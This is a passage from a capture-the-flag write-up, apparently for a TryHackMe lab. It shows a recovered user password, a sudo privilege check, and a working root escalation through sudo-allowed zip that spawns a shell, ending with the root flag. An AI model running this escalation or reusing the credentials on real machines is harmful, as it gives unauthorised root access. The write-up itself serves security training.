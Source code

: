 We now have merlin's credentials:
* username: `merlin`
* password: `asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Let's switch to `merlin` and check our privileges:

~~~
skyfuck@ubuntu:~$ su - merlin
Password: 
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
~~~

We can run `zip` with `root` access. Let's check [here](https://gtfobins.github.io/gtfobins/zip/) what we can do with this.

Escalation with `sudo`:

~~~
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# ls -l
total 8
-rw-r--r-- 1 root root   17 Mar 10 22:26 root.txt
drwxr-xr-x 2 root root 4096 Mar 10 22:25 ufw
# cat root.txt
THM{Z1P_1S_FAKE}
~~~

Root flag: `THM{Z1P_1S_FAKE}`
